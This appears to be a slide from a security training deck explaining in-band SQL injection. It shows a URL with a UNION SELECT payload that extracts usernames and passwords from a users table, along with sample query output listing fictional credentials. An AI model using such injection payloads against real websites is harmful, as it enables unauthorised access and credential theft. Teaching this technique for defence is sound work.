

In-Band SQLi
In-band; where the results are returned in the response
site.com/products?id=1+and+union+select+username,+password+from+users
select product, stockcount
from products where id = 1
and
union select username, password from users
+-------------------------------------+
| product             | stockcount    |
+-------------------------------------+
| Model Car           | 342           |
| vortex              | password1     |
| st0rm               | arch4lyfe     |
| jakob               | xssismybag    |
| jake                | 1337jake!     |
| josh                | notcasper     |
+-------------------------------------+